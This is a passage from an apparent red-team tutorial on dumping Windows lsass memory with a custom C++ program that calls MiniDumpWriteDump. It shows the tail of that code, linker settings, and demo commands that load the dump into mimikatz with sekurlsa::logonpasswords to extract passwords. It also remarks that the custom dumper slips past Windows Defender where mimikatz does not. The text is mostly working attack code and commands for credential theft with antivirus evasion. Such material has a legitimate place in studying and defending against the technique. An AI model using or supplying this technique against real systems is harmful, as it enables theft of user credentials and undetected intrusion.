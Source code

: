 ```cpp
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

{% hint style="info" %}
Or simply include at the top of the source code:  
`#pragma comment (lib, "Dbghelp.lib")`
{% endhint %}

### Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/peek-2019-03-23-22-16.gif)

### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:

![](../../.gitbook/assets/peek-2019-03-23-21-25.gif)

..which then can be read in mimikatz offline:

![](../../.gitbook/assets/screenshot-from-2019-03-23-21-26-41.png)
